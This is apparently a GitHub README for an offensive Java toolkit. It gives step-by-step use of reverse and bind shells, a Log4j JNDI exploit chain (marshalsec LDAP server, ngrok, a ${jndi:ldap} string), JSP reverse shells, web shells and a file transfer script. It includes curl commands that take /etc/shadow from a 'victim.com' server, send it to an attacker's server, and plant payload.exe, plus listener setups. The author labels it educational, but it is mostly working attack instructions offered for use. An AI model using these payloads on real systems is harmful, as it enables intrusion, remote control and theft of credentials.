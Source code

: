 # Java Reverse TCP

JAR files and JSP scripts for communicating with a remote host.

Remote host will have a full control over the client and all the underlying system commands.

Works on Linux OS and macOS with `/bin/sh` and Windows OS with `cmd.exe`. Program will automatically detect an underlying OS.

Works with both `ncat` and `multi/handler`.

Check the source code of JAR files:

* [/src/Reverse Shell/src/reverse/shell/ReverseShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Reverse%20Shell/src/reverse/shell/ReverseShell.java)
* [/src/Reverse Shell/src/reverse/shell/BindShell.java](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Bind%20Shell/src/bind/shell/BindShell.java)

Built with JDK v8 on Apache NetBeans IDE v12.2 (64-bit). All the files require Java SE v8 or greater to run.

JAR files were tested with Java v8 update 282 on Windows 10 Enterprise OS (64-bit) and Kali Linux v2021.2 (64-bit).

JSP scripts were tested on Apache Tomcat Version v7.0.100 on XAMPP for Windows v7.4.3 (64-bit).

Made for educational purposes. I hope it will help!

## Table of Contents

* [JAR Shells](#jar-shells)
* [Log4j Shells](#log4j-shells)
* [JSP Reverse Shell](#jsp-reverse-shell)
* [JSP Web Shells](#jsp-web-shells)
* [JSP File Upload/Download Script](#jsp-file-uploaddownload-script)
* [Set Up a Listener](#set-up-a-listener)
* [Images](#images)

## JAR Shells

Open your preferred console from [/jar/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/jar) and run the following commands:

```fundamental
java -jar Reverse_Shell.jar 192.168.8.185 9000

java -jar Bind_Shell.jar 9000
```

## Log4j Shells

This PoC was tested on Kali Linux v2021.4 (64-bit).

**Change the IP address and port number inside the source files as necessary.**

Open your preferred console from [/log4j/](https://github.com/ivan-sincek/java-reverse-tcp/tree/main/log4j) and run the following commands:

Compile the source file:

```fundamental
javac ReverseShell.java
```

Start a local web server from the same directory as the compiled class file (i.e. `ReverseShell.class`):

```fundamental
python3 -m http.server 9090

python3 -m http.server 9090 --directory somedirectory
```

Download and build LDAP server:

```bash
git clone https://github.com/mbechler/marshalsec && cd marshalsec && mvn clean package -DskipTests && cd target
```

Start LDAP server and create a reference to the compiled class file on your local web server:

```fundamental
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:9090/#ReverseShell
```

Credits to the author for [marshalsec](https://github.com/mbechler/marshalsec)!

Give the local LDAP server a public domain with [ngrok](https://ngrok.com):

```fundamental
./ngrok tcp 1389
```

Build the JNDI string (obfuscate it however you like):

```fundamental
${jndi:ldap://x.tcp.ngrok.io:13337/ReverseShell}
```

## JSP Reverse Shell

**Change the IP address and port number inside the script as necessary.**

Copy [/jsp/jsp_reverse_shell.jsp](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/jsp_reverse_shell.jsp) to your projects's root directory or upload it to your target's web server.

Navigate to the file with your preferred web browser.

## JSP Web Shells

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_post.jsp) based on HTTP POST request.

Check the [simple JSP web shell](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/simple_jsp_web_shell_get.jsp) based on HTTP GET request. You must [URL encode](https://www.urlencoder.org) your commands.

## JSP File Upload/Download Script

Check the [simple JSP file upload/download script](https://github.com/ivan-sincek/java-reverse-tcp/blob/main/src/Web%20Shell/web/files.jsp) based on HTTP POST request for file upload and HTTP GET request for file download.

When downloading a file, you should [URL encode](https://www.urlencoder.org) the file path, and specify name of the output file.

### Case 1: Upload the Script to the Victim’s Server

Navigate to the script on the victim's server with your preferred web browser, or use cURL from you PC.

Upload a file to the victim's server web root directory from your PC:

```fundamental
curl -s -k -X POST https://victim.com/files.jsp -F file=@/root/payload.exe
```

Download a file from the victim's PC to your PC:

```fundamental
curl -s -k -X GET https://victim.com/files.jsp?file=/etc/shadow -o shadow
```

If you use reverse shell and you have elevated your initial privileges, this script might not have the same privileges as your shell. To download a certain file, you might need to copy the file to the web root directory and give it necessary read permissions.

### Case 2: Upload the Script to Your Server

From your PHP reverse shell, run the following cURL commands.

Upload a file from the victim's PC to your server web root directory:

```fundamental
curl -s -k -X POST https://your-server.com/files.jsp -F file=@/etc/shadow
```

Download a file from your PC to the victim's PC:

```fundamental
curl -s -k -X GET https://your-server.com/files.jsp?file=/root/payload.exe -o payload.exe

curl -s -k -X GET https://your-server.com/payload.exe -o payload.exe
```

## Set Up a Listener

To set up a listener, open your preferred console on Kali Linux and run one of the examples below.

Set up `ncat` listener:

```fundamental
ncat -nvlp 9000
```

Set up `multi/handler` listener:

```fundamental
msfconsole -q

use exploit/multi/handler

set PAYLOAD windows/shell_reverse_tcp

set LHOST 192.168.8.185

set LPORT 9000

exploit
```

## Images

<p align="center"><img src="https://github.com/ivan-sincek/java-reverse-tcp/blob/main/img/reverse_shell.jpg" alt="Reverse Shell"></p>

<p align="center">Figure 1 - Reverse Shell</p>

<p align="center"><img src="https://github.com/ivan-sincek/java-reverse-tcp/blob/main/img/ncat.png" alt="Ncat"></p>

<p align="center">Figure 2 - Ncat</p>
